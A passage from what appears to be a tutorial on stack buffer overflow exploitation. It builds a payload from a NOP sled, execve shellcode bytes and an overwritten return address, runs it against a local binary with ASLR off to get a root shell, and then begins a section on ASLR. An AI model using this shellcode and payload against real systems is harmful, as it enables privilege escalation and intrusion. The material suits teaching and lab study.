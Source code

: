 ```
The reason for inserting a NOP sled before the shellcode is that now we can transfer execution flow to anyplace within these 40 bytes. The processor will keep on executing the NOP instructions until it finds the shellcode. We need not know the exact address of the shellcode. This takes care of the earlier mentioned problem of not knowing the address of buf exactly.

We will make the processor jump to the address of buf(taken from gdb’s output) + 20 bytes to get somewhere in the middle of the NOP sled.
```
0xffffce0c + 20 = 0xffffce20
```
We can fill the rest 47(112 - 25 - 40) bytes with random data, say the ‘A’ character.

Final payload structure:

[40 bytes of NOP - sled] [25 bytes of shellcode] [47 times ‘A’ will occupy 49 bytes] [4 bytes pointing in the middle of the NOP - sled: 0xffffce20]

So let’s try to execute it:
```
test@linux ~ $ ./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*47 + "\x20\xce\xff\xff"')
Welcome ����������������������������������������j
                            X�Rhn/shh//bi��RS��̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4���
# whoami
root
```

Congratulations! We’ve got root access.

Note: In case you segmentation fault, try changing the return address by +- 40 a few times.

To summarize, we overflowed the buffer and modified the return address to point near the start of the buffer in the stack. The buffer itself started with a NOP sled followed by shellcode which got executed. Keep in mind that we did all this with ASLR turned off. Which means that the start of the stack wasn’t randomized each time the program was executed. This enabled us to first run the program in ```gdb``` to know the address of buffer. Make sure you’ve understood everything till here. Now we shall be going to the exciting part!

## Shellcode Injection with ASLR

You can turn ASLR on and try to execute our earlier exploit. A great chance you wouldn’t be able to run it. So how do we approach now? To begin, let’s first try to inspect a few things. Let’s create a program to just print the address of its variable which is stored on the stack.

```C
#include <stdio.h>

int main()
{
    int a;
    printf("%p\n", &a);
    return 0;
}
```


[//]: <> (文章所涉及到的技术点的链接)
[//]: <> (题目)
[//]: <> (内容)
